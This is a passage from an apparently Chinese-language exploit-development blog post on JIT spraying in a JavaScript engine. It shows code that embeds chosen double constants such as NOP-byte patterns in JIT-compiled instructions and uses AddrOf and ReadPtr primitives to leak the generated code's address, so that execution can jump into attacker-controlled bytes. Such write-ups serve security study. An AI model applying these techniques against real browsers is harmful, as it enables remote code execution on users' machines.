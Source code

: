我们得到我们的`0x9090909090909090`对应的double值为`-6.828527034422786e-229`, 所以我们构造如下代码:

``` js

    function construct_rop_chain(){
        const A = -6.828527034422786e-229;
        const B = -6.828527034422786e-229;
        const C = -6.828527034422786e-229;
        const D = -6.828527034422786e-229;
    }

    for(let i = 0; i < 12; i++){
        construct_rop_chain();
    }

```

//  [+] 当代码运行次数过多的时候, `JS.exe`会把`control_rop_chain`转换为汇编代码放在内存当中.
//  [+] 这里需要对Hot code做一个解释, To do list.

我们怎么去找到我们生成的代码呢?

首先, 我们找到我们函数对象的地址: 

![](https://github.com/redogwu/Just-pwn-it-for-fun/blob/master/img/img_01/blog_15.png)

接着, 由于函数对象由`JSFunction`管理, 所以我们可以打印出相应的信息.
![](https://github.com/redogwu/Just-pwn-it-for-fun/blob/master/img/img_01/blog_16.png)

在`JSFunction`偏移为`0x30`的地方, 存放一个指针(黄色高亮的部分), 指向了我们生成的代码.

对照着上面的结构, 我们可以很轻松的获取到存放函数的地址:

``` js
    // leak control_chain
    let construct_rop_chain_func_obj_addr = Pwn.AddrOf(construct_rop_chain);
    let construct_rop_chain_func_jit_info = Pwn.ReadPtr(Add(construct_rop_chain_func_obj_addr, 0x30));
    let construct_rop_chain_func_addr = Pwn.ReadPtr(construct_rop_chain_func_jit_info);

    console.log("[+] The function address is: " + construct_rop_chain_func_addr);
```

验证如下:

![](https://github.com/redogwu/Just-pwn-it-for-fun/blob/master/img/img_01/blog_20.png)

接着, 我们查看生成的代码:

![](https://github.com/redogwu/Just-pwn-it-for-fun/blob/master/img/img_01/blog_17.png)

emmm, 显然, 赋值操作在`jit`里面也是由我们的`mov`指令完成. 注意看操作数(就是doble对应的16进制值):

>  `6EB909090D48748h`.

这一部分的内容我们可控. 所以我们假设一下, 我们的设置`rip`地址为`0x00000018dabd6619+2`. 则我们就找到了我们要的命令.
![](https://github.com/redogwu/Just-pwn-it-for-fun/blob/master/img/img_01/blog_18.png)

